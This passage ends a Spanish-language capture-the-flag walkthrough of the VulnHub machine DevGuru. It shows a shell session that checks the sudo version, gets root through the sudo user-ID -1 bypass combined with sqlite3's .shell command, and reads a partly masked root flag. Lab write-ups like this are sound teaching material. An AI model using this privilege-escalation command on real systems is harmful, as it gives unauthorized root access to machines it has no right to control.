 ```bash
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
root@devguru:~/gitea-repositories/frank/devguru-website.git# whoami
root
```
Ya podemos acceder a la flag de root en el directorio `/root`

```bash
root@devguru:~/gitea-repositories/frank/devguru-website.git# cat /root/root.txt
96440606fb88aa749***************
```

Hemos completado la máquina **DevGuru** de VulnHub!! Happy Hacking!!
